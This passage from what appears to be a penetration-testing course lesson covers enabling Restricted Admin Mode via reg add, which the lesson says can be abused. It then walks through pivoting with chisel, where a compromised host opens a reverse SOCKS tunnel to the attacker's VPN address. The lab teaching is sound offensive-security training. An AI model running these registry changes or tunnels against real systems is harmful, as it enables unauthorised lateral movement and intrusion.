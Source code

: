 Additionally, to enable `Restricted Admin Mode`, we would set the `DisableRestrictedAdmin` value to `0`. Here is the command to enable it:

```cmd-session
C:\Tools> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD

```

And to disable `Restricted Admin Mode`, set the `DisableRestrictedAdmin` value to `1`:

```cmd-session
C:\Tools> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD

```

**Note:** Only members of the Administrators group can abuse `Restricted Admin Mode`.

## Pivoting

It is common that we will need to use pivoting to perform lateral movement, in the module [Pivoting, Tunneling and Port Forwarding](https://academy.hackthebox.com/module/details/158) we explain everything we need to know about pivoting.

In this lab, we have access to one single host. To connect to the other machines from our Linux attack host, we will need to set up a pivot method; in this case, we will use [chisel](https://github.com/jpillora/chisel).

We will need to configure a `socks5` SOCKS proxy on port `1080` in the `/etc/proxychains.conf` file:

```shell
cat /etc/proxychains.conf | grep -Ev '(^#|^$)' | grep socks
socks5 127.0.0.1 1080

```

Next, on our Linux machine, we will initiate reverse port forwarding server:

```shell
./chisel server --reverse
2024/03/28 07:09:08 server: Reverse tunnelling enabled
2024/03/28 07:09:08 server: Fingerprint AKOstLSoSTPQPp2PVEALM6z9Jx0IQVEEmO7bOSan1s4=
2024/03/28 07:09:08 server: Listening on http://0.0.0.0:8080
2024/03/28 07:10:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

Then, in `SRV01`, we will connect to the server with the following command `chisel.exe client <VPN IP> R:socks`:

```powershell
PS C:\Tools> .\chisel.exe client 10.10.14.207:8080 R:socks
2024/03/28 06:10:48 client: Connecting to ws://10.10.14.207:8080
2024/03/28 06:10:49 client: Connected (Latency 137.6381ms)

```
